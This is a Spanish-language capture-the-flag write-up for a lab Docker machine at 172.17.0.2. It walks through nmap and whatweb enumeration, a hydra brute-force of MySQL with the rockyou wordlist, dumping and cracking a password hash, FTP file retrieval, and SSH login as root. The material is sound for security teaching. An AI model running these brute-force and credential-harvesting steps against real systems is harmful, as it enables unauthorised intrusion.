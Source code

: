 ## DESPLIEGUE DEL DOCKER

Después de desplegar el docker la IP de la máquina es --->172.17.0.2

## FASE DE ENUMERACIÓN

Lo primero vamos a ver que puertos tieneabiertos y que servicios conrren por ellos así como sus versiones para ver si hay alguna vulnerabilidad.
```bash
nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open -oN PuertosYservicios 172.17.0.2
```
Descripción del comando: 

nmap ejecuta la herramienta de escaneo de red
-sS realiza un escaneo SYN rápido y sigiloso
-sCV detecta servicios y versiones ejecutando scripts predeterminados
-Pn omite el ping y asume que el host está activo
--min-rate 5000 establece una tasa mínima de 5000 paquetes por segundo
-p- escanea todos los puertos del 1 al 65535
-vvv modo muy detallado del escaneo
--open muestra solo los puertos abiertos
-oN PuertosYservicios guarda el resultado en un archivo de texto
172.17.0.2 es la IP del host objetivo

```
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 3.0.3
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 04:81:76:01:7f:ac:bd:15:ea:2b:24:10:c2:7c:56:5f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO6CZDpuoCIZDYiR9SUlcbeEdpvEjB6MHLMkjm6lH1/jJ5gq+CjwCLdoierDtDiJL66j8Jegm97vxLEL/Pty2cI=
|   256 73:c2:da:cb:47:d7:a9:40:1e:c6:11:bf:09:9c:b2:a3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINSaD5RDDNiU4Y284/RlAmpctEMA37q5icAC1fJH5uBU
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Zoo de Capybaras
|_http-server-header: Apache/2.4.62 (Debian)
3306/tcp open  mysql   syn-ack ttl 64 MariaDB 5.5.5-10.11.6
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.6-MariaDB-0+deb12u1
|   Thread ID: 48
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, ODBCClient, LongColumnFlag, Support41Auth, Speaks41ProtocolOld, SupportsCompression, ConnectWithDatabase, SupportsTransactions, IgnoreSigpipes, InteractiveClient, DontAllowDatabaseTableColumn, FoundRows, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: '1_l![)X`Y|(L(!m$gZp
|_  Auth Plugin Name: mysql_native_password
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
vemos unos cuantos puertos abiertos, el 21 ftp, intento conectarme como anonymous y no me deja, de momento lo descartamos
el 3306 mysql que sin credenciales no nos deja conectarnos a la base de datos y 22 ssh sin credenciales tampoco podemos hacer nada.
Vamos al puerto 80 protocolo http, lanzamos un whatweb por si nos reporta alguna información interesante:
```bash
whatweb http://172.17.0.2
```
```
http://172.17.0.2 [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[172.17.0.2], Title[Zoo de Capybaras]
```
nada interesante salvo saber que corre un apache, miramos el código fuente de la página con ctrl+u y no vemos nada interesante, lo único interesante es:

```
Hola Usuario capybara
```
un usuario. Así pùes vamos a ver dónde podemos atacar con un usuario y un diccionario.

## FASE INTRUSIÓN

tenemos un servicio en el puerto 3306 de mysql, lanzamos un ataque de fuerza bruta usando hydra:

```bash
hydra -l capybara -P /usr/share/wordlists/rockyou.txt -t 64 mysql://172.17.0.2 -F -I -V 
```
```
[ATTEMPT] target 172.17.0.2 - login "capybara" - pass "000000" - 23 of 14344399 [child 3] (0/0)
[ATTEMPT] target 172.17.0.2 - login "capybara" - pass "michelle" - 24 of 14344399 [child 1] (0/0)
[ATTEMPT] target 172.17.0.2 - login "capybara" - pass "tigger" - 25 of 14344399 [child 0] (0/0)
[ATTEMPT] target 172.17.0.2 - login "capybara" - pass "sunshine" - 26 of 14344399 [child 2] (0/0)
[ATTEMPT] target 172.17.0.2 - login "capybara" - pass "chocolate" - 27 of 14344399 [child 3] (0/0)
[ATTEMPT] target 172.17.0.2 - login "capybara" - pass "password1" - 28 of 14344399 [child 1] (0/0)
[3306][mysql] host: 172.17.0.2   login: capybara   password: password1
```
pues tenemos un user y un pass para mysql capybara:password1, vamos a conectarnos a la base de datos:

```bash
mysql -h 172.17.0.2 -u capybara -p --skip-ssl
```
es importante poner la flag --skip-ssl para omitirse el uso de SSL, sino no nos conectará

introducimos el pass cuando lo pida: password1

```
 mysql -h 172.17.0.2 -u capybara -p --skip-ssl                                                                                                                                         ░▒▓ ✔ 

Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 117
Server version: 10.11.6-MariaDB-0+deb12u1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

ahora vamos a movernos por la base de datos:
usamos el comando " show databases; " para que nos muestre las bases de datos disponibles:

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| beta               |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0,001 sec)
```
vemos una interesante llamada beta, ahora con el comando " use + nombre de la base de datos" usamos esa base de datos_
```bash
use beta;
```
```
Database changed
MariaDB [beta]> 
```
una vez dentro de la base de datos hay que ver las tablas de las que disponemos con el comando " show tables; "

```bash
MariaDB [beta]> show tables;
+----------------+
| Tables_in_beta |
+----------------+
| registraton    |
+----------------+
1 row in set (0,000 sec)
```
ahora queremos ver toda la información de la tabla registraton "select * from registraton;"
```
MariaDB [beta]> select * from registraton;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | balulero | 520d3142a140addb8be7d858a7e29e15 |
+----+----------+----------------------------------+
1 row in set (0,000 sec)
```

tenemos un user y un hash, voy a probar una pagina de rainbow tables por si eexiste en sus bases la contraseña,
me voy a :
```bash
https://crackstation.net/
```
```
Hash	Type	Result
520d3142a140addb8be7d858a7e29e15	md2	password1
```
pues ya tenemos un user nuevo y un pass balulero:password1

Probamos por ssh y no nos deja conectarnos así pues probamos ftp:
```bash
 ftp 172.17.0.2
```
```
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:kali): balulero
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
listamos el contenido y vemos un archivo backup.pdf que nos traemos a nuestra máquina:

```
ftp> ls
229 Entering Extended Passive Mode (|||53681|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0           31654 Feb 02 11:21 backup.pdf
226 Directory send OK.
ftp> get backup.pdf
local: backup.pdf remote: backup.pdf
229 Entering Extended Passive Mode (|||11668|)
150 Opening BINARY mode data connection for backup.pdf (31654 bytes).
100% |************************************************************************************************************************************************************************************************| 31654      206.76 MiB/s    00:00 ETA
226 Transfer complete.
31654 bytes received in 00:00 (44.58 MiB/s)
```

es un pdf en el cual leemos: 
```
BACKUP PASSWORD
La contraseña del usuario root es
```
y algo ilegible, hacemos un tratamiento rápido convirtiendo el pdf a imagen (con cualquier pagina online que querais)
y usando este comando:
```bash
convert imagen.jpg -brightness-contrast 10x15 imagen_mejorada.jpg
```

se puede medi leer : 
```
passwordpepinaca
```

pues nos conectamos por ssh como root y el password.
```
 ssh root@172.17.0.2                                                                                                                                                                   
root@172.17.0.2's password: 
```
```
root@29316be1337f:~# id
uid=0(root) gid=0(root) groups=0(root)
```

y hasta aquí esta máquina interesante que después de la intrusión ya somos root ;)
